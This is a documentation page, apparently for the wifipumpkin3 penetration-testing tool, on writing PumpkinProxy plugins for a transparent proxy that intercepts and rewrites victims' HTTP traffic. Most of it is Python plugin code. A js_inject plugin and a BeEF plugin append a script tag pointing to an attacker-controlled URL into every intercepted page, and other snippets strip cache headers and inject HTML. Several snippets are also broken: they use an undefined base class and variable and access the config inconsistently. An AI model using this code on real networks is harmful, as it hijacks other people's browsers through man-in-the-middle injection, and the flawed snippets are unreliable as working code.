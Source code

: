 ```yaml
---
title: 'Pumpkinproxy'
description: 'PumpkinProxy is a transparent proxies fork about sslstrp.'
icon: "server"
---
```


PumpkinProxy is a transparent proxies that you can use to intercept and manipulate HTTP traffic modifying requests and responses, that allow to inject javascripts into the targets visited. 


### Overview 
First of all write the import plugin tamplate 
``` python
from wifipumpkin3.plugins.extension.base import BasePumpkin
```
the basic plugin example:
``` python
from wifipumpkin3.plugins.extension.base import BasePumpkin


class Example(PluginTemplate):
    meta = {
        "_name": "example plugin ",
        "_version": "1.0",
        "_description": "example plugin structure",
        "_author": "by example",
    }

    # get name of plugin static
    @staticmethod
    def getName():
        return Example.meta["_name"]

    def __init__(self):
        for key,value in self.meta.items():
            self.__dict__[key] = value
        self.ConfigParser = False # no requeire args

    def handleHeader(self, request, key, value):
        pass

    def handleResponse(self, request, data):
        return data
```

### Modify Packets 
Simple fuctions that just adds a header to every request.. 
 ``` python
    def handleResponse(self, request, data):
      data = str(html + "<h1> injected code html </h1>")
      # request.uri url of website 
      print("[{}] [Request]: {} | injected ".format(self._name, request.uri))
      return data
```

example how to remove header from request and set no-cached parameter
 ``` python
    def handleHeader(self, request, key, value):
        if key.decode().lower() == "cache-control":
            value = "no-cache".encode()

        if key.decode().lower() == "if-none-match":
            value = "".encode()
        if key.decode().lower() == "etag":
            value = "".encode()
```

another example how to rewrite packet in real time 
 ``` python
from wifipumpkin3.plugins.extension.base import BasePumpkin
from os import path
from bs4 import BeautifulSoup

class js_inject(BasePumpkin):
    meta = {
        "_name": "js_inject",
        "_version": "1.1",
        "_description": "url injection insert and use our own JavaScript code in a page.",
        "_author": "by Maintainer",
    }

    @staticmethod
    def getName():
        return js_inject.meta["_name"]

    def __init__(self):
        for key, value in self.meta.items():
            self.__dict__[key] = value
        self.ConfigParser = True
        self.url = self._config.get("set_js_inject", "url")

    def handleResponse(self, request, data):

        html = BeautifulSoup(data, "html.parser")
        """
        # To Allow CORS
        if "Content-Security-Policy" in flow.response.headers:
            del flow.response.headers["Content-Security-Policy"]
        """
        if html.body:
            url = "{}".format(request.uri)
            metatag = html.new_tag("script")
            metatag.attrs["src"] = self.url
            metatag.attrs["type"] = "text/javascript"
            html.body.append(metatag)
            data = str(html)
            print("[{} js script Injected in [ {} ]".format(self._name, url))
        return data
```

### Logging 
all log will save data(pumpkin-prxoy.log) in your plugin.

### How to add argumments 
Now, if you want to add argumments in proxy.ini for show me on Pumpkin-Proxy->Settings.you need to add in directory "core/config/app/proxy.ini" the key (exampleplugin and set_exampleplugin).

* exampleplugin key is the option checkbox to change and enable or disable plugin
* set_exampleplugin this is key for search all argumments in Settings option.
![plugin_key](http://i.imgur.com/oSvErrZ.png)

### Example from Wp3 with Argummets 
``` python
from wifipumpkin3.plugins.extension.base import BasePumpkin
from os import path
from bs4 import BeautifulSoup


class beef(BasePumpkin):
    meta = {
        "_name": "beef",
        "_version": "1.1",
        "_description": "url injection insert and use our own JavaScript code in a page.",
        "_author": "by Maintainer",
    }

    @staticmethod
    def getName():
        return beef.meta["_name"]

    def __init__(self):
        for key, value in self.meta.items():
            self.__dict__[key] = value
        self.ConfigParser = True
        self.urlhook = self.config.get("set_beef", "hook")

    def handleResponse(self, request, data):

        html = BeautifulSoup(data, "html.parser")
        """
        # To Allow CORS
        if "Content-Security-Policy" in flow.response.headers:
            del flow.response.headers["Content-Security-Policy"]
        """
        if html.body:
            url = "{}".format(request.uri)
            metatag = html.new_tag("script")
            metatag.attrs["src"] = self.urlhook
            metatag.attrs["type"] = "text/javascript"
            html.body.append(metatag)
            data = str(html)
            print("[{} js script Injected in [ {} ]".format(self._name, url))
        return data

```

You can easily implement a module to inject data into pages creating a python file in directory "plugins/extension/" and run `make setup` that on next start the prompt, the plugin is there.